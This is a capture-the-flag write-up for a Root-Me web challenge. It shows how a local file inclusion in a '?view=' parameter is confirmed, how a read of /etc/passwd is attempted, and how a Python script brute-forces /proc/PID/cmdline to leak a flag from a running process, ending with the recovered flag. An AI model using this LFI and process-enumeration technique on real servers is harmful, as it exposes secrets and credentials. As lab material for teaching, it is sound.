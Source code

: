# Echo's Secure Flag Checker

![chall_head](./chall_head.png)

## Vulnerablity searching

First, let's look at the website.

![home_page](./screen1.png)

It appears that the website was created to publish a script that checks the robustness of a flag. When we click on the link "here", we can see 2 interesting things.

- The page inform us that we can download the script at `http://ctf10k.root-me.org:6002/flagChecker.py` and if we remember correctly what says the description of the challenge, we can see that `The admin is currently running the FlagChecker on his server.`

- The url that we were redirected to is `http://ctf10k.root-me.org:6002/?view=app.html` which could be a local/remote file inclusion. This vulnerablity appears when websites open the content of files that are given in parameters, if there is no filter in the path of the file given, an attacker can read the content of any file, if he knows his path.

Let's first check the script, it could maybe be vulnerable.

```python
#!/bin/python3

"""
FlagChecker V0.1
Todo :  Improve testFlag method with regular expressions
	Implement try/catch to handle bad args
"""

#libs
from sys import argv
from os import getpid,system

#flag
flag = argv[2]
print("[~] Your flag is:",flag)
print("[~] PID is:",getpid())

def testFlag(passw):
	special_characters = "\"'!@~éè#$%^&*()-+?_=,<>/"
	isStrong = True
	reason = "[!] flag doesn't match these critera : \n"
	upperChars = 0
	lowerChars = 0
	numChars = 0
	if(len(passw)<=12):
		isStrong = False
		reason+="\t-Not long enough (<12 characters)\n"
	for char in passw:
		if char.isupper():
			upperChars+=1
	if(upperChars==0):
		isStrong= False
		reason+="\t-There are no uppercase characters in your flag\n"
	for char in passw:
		if char.islower():
			lowerChars+=1
	if(lowerChars==0):
		isStrong = False
		reason+="\t-There are no lowercase characters in your flag\n"
	for char in passw:
		if char.isnumeric():
			numChars+=1
	if(numChars==0):
		isStrong = False
		reason+="\t-There are no numbers in your flag\n"
	if(char in special_characters for char in passw):
		a=""
	else:
		reason+="\t-There are no special chars in your flag\n"
		isStrong=False
	if(isStrong):
		print("[!] Your flag is strong enough !")
	else:
		print(reason)
	input("Press <ENTER> to quit program...")
#test flag
testFlag(flag)
```

Ok, bye reading the script, we can assume that the administrator of the website ran the program but forgot to close it by typing \<ENTER\>. We can assume that he ran something like

```bash
./flagChecker -f flag
```

So, what we exploit is the fact that the script is currently running. To do that, let's look into the local/remote file inclusion that we found earlier.

To be more precise, let's firstly try if there really is a local file inclusion. To check that, the most efficient way is to test it on a file that exists in the directory for sure and we got one. Infact, `flagChecker.py`is in this directory.


By requesting `http://ctf10k.root-me.org:6002/?view=flagChecker.py` we got this reponse

![screen_response](./screen2.png)

The LFI(Local File Inclusion) worked !

Now let's see if there is a restriction on the file that we can open. For example, let's try `/etc/passwd` .

![screen_reponse2](./screen3.png)


Unfortunately, there is one. :cry:

If we think a litle, what we need to find is the command that was executed. To do that, we have 2 ways, or a log file, or a file that contains iformations about the programs currently running.

Logs are out of reach, cause most of them need root permissions to be openend, so it only remains the second possibilty.

If we look further in the way of working of linux type systems, there is a directory created for each currently running program in `/proc` which is named with the PID of the process. Inside, there is a file called `cmdline`, where we can find the command line used to launch the process.

So, to sum up, we're gonna try to open the file `/proc/PID/cmdline` to see how the process with the pid PID was launched.

Let's try to do it for the pid 1, to see if we can access that file, which gives the url `http://ctf10k.root-me.org:6002/?view=/proc/1/cmdline`.


![screen_response_test](./screen4.png)

And we got it, time to create a script to brute-force all the pids possible, to find which ones exists and wich ones do not.

```python
import requests
import time
from bs4 import BeautifulSoup

s = requests.Session()
url = "http://ctf10k.root-me.org:6002/?view=/proc/"
not_found_length = 1366 # lenght of the responses with 404 not found

for i in range(1, 9999):
    print("Getting : " + str(i))
    req = s.get(url+str(i)+"/cmdline").content
    if len(req) != not_found_length:
        print("[+] Found for "+str(i))
        cmd = BeautifulSoup(req).find("main")
        print(cmd)
    time.sleep(0.1) # if there is a request/s limit
```

If we execute the script.

```html
Getting : 1
[+] Found for 1
<main class="text-light">/bin/bash /entrypoint.sh </main>
Getting : 2
Getting : 3
Getting : 4
Getting : 5
Getting : 6
Getting : 7
[+] Found for 7
<main class="text-light">apache2 -DFOREGROUND </main>
Getting : 8
[+] Found for 8
<main class="text-light">python3 /var/www/html/flagChecker.py --flag RM{Thx2Anth0&amp;M1k4Y0uFl4gg3d0bfu6} </main>
Getting : 9
Getting : 10
Getting : 11
Getting : 12
Getting : 13
Getting : 14
Getting : 15
```

We just need to wait 5 seconds and here we got the flag in the output, no need to test more pids.

We just need to remove the html encoding (`&amp;` -> `&`), which gives the flag `RM{Thx2Anth0&M1k4Y0uFl4gg3d0bfu6}`.

[Here](./brute_force_flagChecker.py) is the source code of the brute force script and [here](./flagChecker.py) is the file flagChecker(that was downloaded on the website).

Thanks to Mika and Antho for the challenge and thank you for reading.